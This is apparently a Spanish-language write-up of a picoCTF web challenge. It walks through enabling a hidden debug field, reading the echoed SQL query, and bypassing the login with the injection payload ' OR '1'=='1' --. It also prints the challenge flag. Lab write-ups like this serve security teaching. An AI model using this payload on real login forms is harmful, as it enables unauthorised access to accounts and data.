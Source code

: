## Objetivo:
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

**Hints:**
1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.

## Solución:
1. Al inspeccionar la página de inicio de sesión, podemos encontrar que hay un campo del formulario oculto llamado `debug`. por lo tanto lo establecemos en 1:

```html
<input type="hidden" name="debug" value="0">

<input type="hidden" name="debug" value="1">
```

2. Al establecer el valor en `1`  e ingresar algún nombre de usuario y contraseña muestra:

```txt
username: admin
password: 12134
SQL query: SELECT * FROM users WHERE name='admin' AND password='12134'

Login failed.
```

3. Observamos la consulta SQL. Establecer el nombre de usuario en una comilla simple (') e iniciar sesión da como resultado:

```txt
username: '
password: 12134
SQL query: SELECT * FROM users WHERE name=''' AND password='12134'
```

4. Al revisar la actividad de la red muestra un código de retorno de 500: Error interno del servidor. Esto indica la ausencia de un filtrado SQL adecuado. Una simple inyección SQL de `' OR '1'=='1' --` obtenemos la bandera:

```txt
username: ' OR '1'=='1' --
password: 1234
SQL query: SELECT * FROM users WHERE name='' OR '1'=='1' --' AND password='1234'

Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}
```

### Flag: picoCTF{s0m3_SQL_fb3fe2ad}

## Notas adicionales:

### SQL Injection:
La inyección SQL es una técnica de inyección de código que podría destruir su base de datos. La inyección SQL es una de las técnicas de piratería web más comunes. La inyección SQL es la colocación de código malicioso en declaraciones SQL, a través de la entrada de una página web.

## Referencias:
- https://www.w3schools.com/sql/sql_injection.asp